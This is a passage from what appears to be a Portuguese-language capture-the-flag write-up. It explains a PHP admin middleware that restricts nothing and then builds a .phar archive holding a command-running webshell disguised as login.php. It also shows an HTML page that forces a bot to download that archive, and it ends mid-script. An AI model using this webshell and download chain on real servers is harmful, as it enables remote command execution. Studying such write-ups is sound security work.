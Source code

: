 ```php
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```

Esse middleware… não restringe nada! Ele sempre retorna `handle($request)`, mesmo que você não seja admin. Ou seja: a checagem é inútil. Dá pra acessar os endpoints de admin simplesmente ignorando a sessão e enviando um cabeçalho vazio.


Primeiro precisamos criar o arquivo `.phar`:
```php
<?php
$pharFile = 'poc.phar';
@unlink($pharFile);
$p = new Phar($pharFile);
$p->startBuffering();
$p->addFromString('login.php', '<?php echo "Exploit running <br />"; system($_GET["c"]); ?>');
$p->setStub('<?php __HALT_COMPILER(); ?>');
$p->stopBuffering();
```

O motivo de injetar um `login.php` é que a função `render()` vai usar o caminho com `phar://.../login.php`, e retornará o conteúdo `<?php ... ?>`.  
Pense no arquivo `.phar` como um `.zip`, basicamente estamos dizendo para as funções `file_exists` e `file_get_contents` que dentro desse arquivo compactado existe um `login.php` com o nosso código malicioso.

Depois, precisamos hospedar um `index.html` que forçará o bot a baixar o nosso `.phar`:
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>FileSaver Async Script Demo</title>
</head>
<body>
  <h1>FileSaver Async Script Demo</h1>

  <script>
    window.addEventListener("load", function() {
      var url = '/phar';
      var callback = function(byteArray) {
        console.log('Callback called; byteArray length is:', byteArray.length);
      };

      var script = document.createElement('script');
      script.type = 'text/javascript';
      
      script.src = '//cdn.jsdelivr.net/g/filesaver.js';
      script.onload = function() {
        console.log((new Date().toString()) + ' : FileSaver Script is ready!');

        var fileNameOfFileSaver = '__PHAR_NAME__';
        var xhr = new XMLHttpRequest();
        xhr.open('GET', url, true);
        xhr.responseType = 'arraybuffer';

        xhr.onload = function() {
          var arrayBuffer = xhr.response;
          var byteArray = new Uint8Array(arrayBuffer);
```